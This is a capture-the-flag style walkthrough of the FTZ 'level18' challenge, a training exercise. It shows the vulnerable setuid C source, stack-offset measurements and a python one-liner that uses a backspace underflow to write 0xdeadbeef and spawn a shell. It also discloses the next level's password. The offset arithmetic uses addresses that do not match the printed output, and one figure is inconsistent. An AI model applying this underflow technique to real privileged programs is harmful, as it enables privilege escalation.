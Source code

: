 # Level18

## This level's goal
- Pointer move

***

```
[level18@ftz level18]$ ls -l
-rwsr-x---    1 level19  level18      6225 Jan 25  1999 attackme
-rw-r-----    1 root     level18      1272 Jan 25  1999 hint

[level18@ftz level18]$ cat hint

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

```
[level18@ftz tmp]$ gdb /home/level18/attackme
(gdb) disass main
0x08048553 <main+3>:    sub    $0x100,%esp

[level18@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf(" &string:%p\n &check:%p\n &x:%p\n &count:%p\n &fds:%p\n", string, &check, &x, &count, &fds);
  printf(" fds's size : %d\n", sizeof(fds));
}

[level18@ftz tmp]$ gcc distance.c -o distance
[level18@ftz tmp]$ ./distance
 &string: 0xbfffe8e0
 &check:  0xbfffe8dc
 &x:      0xbfffe8d8
 &count:  0xbfffe8d4
 &fds:    0xbfffe850
 fds's size : 128
```

As above, total size(x100) means 256 bytes.

&string - &check = 0xbfffefe0 - 0xbfffefdc = 0x4 (4bytes)   
&check  - &x     = 0xbfffefdc - 0xbfffefd8 = 0x4 (4bytes)   
&x      - &count = 0xbfffefd8 - 0xbfffefd4 = 0x4 (4bytes)   
&count  - &fds   = 0xbfffefd4 - 0xbfffef50 = 0x84(132bytes)   
dummy1 = 132bytes - 128bytes = 4bytes   
dummy2 = 265 - ( 128 + 4 + 4 + 4 + 100 ) = 16bytes - 4bytes(SFP) = 12bytes

fds(128bytes) + dummy1(4bytes) + count(4bytes) + x(4bytes) + check(4bytes) + string(100bytes) + dummy2(12bytes) + SFP(4bytes) + RET(4bytes)

```
if(FD_ISSET(fileno(stdin),&fds))
{
  read(fileno(stdin),&x,1);
  switch(x)
  {
    case '\r':
    case '\n':
      printf("\a");
      break;
    case 0x08:
    count--;
    printf("\b \b");
    break;
    default:
      string[count] = x;
      count++;
      break;
  }
}
```
The point is that you need to input deadbeef in the check to get sh.

In the hint, I understood string[count] will be --count if the input is 0x08.

So, I will move string[]'s pointer and then input deafbeef in the check.

```
[level18@ftz level18]$ (python -c 'print "\x08\x08\x08\x08"+"\xef\xbe\xad\xde"'; cat) | ./attackme
Enter your command:
id
uid=3099(level19) gid=3098(level18) groups=3098(level18)

my-pass
Level19 Password is "swimming in pink".
```
